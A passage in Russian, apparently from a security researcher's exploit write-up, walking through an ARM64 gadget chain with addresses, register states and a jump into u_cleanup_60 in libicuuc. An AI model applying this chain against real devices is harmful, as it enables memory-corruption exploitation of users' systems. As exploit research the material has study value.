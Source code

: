 После гаджета 1:
```asm
X0 : 0x0000007864678428 ; [адрес начала буфера + 0x8]
X8 : 0x0000007864678430 ; [X0]
X2 : gadget2            ; [X8, #0x40] 
```

```asm
0x0000000000141dfc: ldr x0, [x8, #8]; Загрузка в X0 адреса из буфера относительно X8 (далее это значение будет в X19)
                    ldr x8, [x0]; 
                    ldr x8, [x8, #0x50]; Загрузка в X8 адреса из буфера относительно X0 (адрес следующего гаджета)
                    blr x8; переход на следующий гаджет
```

Гаджет 2 (Предварительная запись X0 значением для дальнейшей инициализации X19)

После гаджета2:
```asm
X0 : 0x0000007864678438
X8 : gadget3  [0x0000007864678438 + 0x50]
```

```asm
0x00000000000ed704: mov x19, x0; инициализация X19 указателем на начало массива с адресами гаджетов
                    mov x20, x1; 
                    mov x0, x20; 
                    ldr x8, [x19, #8]; Загрузка в X8 адреса из буфера относительно X19 (адрес u_cleanup_60)
                    blr x8; переход на u_cleanup_60
```

Гаджет 3 (Инициализация X19 указателем на начало массива с адресами гаджетов и вызов u_cleanup_60)

После гаджета3:
```asm
X0  : X1
X8  : 0x0000007864678440 [u_cleanup60 + offset]
X19 : 0x0000007864678438
```

*offset* задавался такой, чтобы u_cleanup60 начинал проход с адреса [X19, #0x10] (**libicuuc_base + 0xBCA10**)

```asm
0x0000000000064f00: mov x0, xzr; ret;
```
SET_X0_TO_NULL (гаджет для загрузки 0 в X0 - для отладки вызова **u_cleanup_60**, но пригодится и на следующем этапе)

На рис. 3.7 приведено наполнение буфера с гаджетами на данном этапе
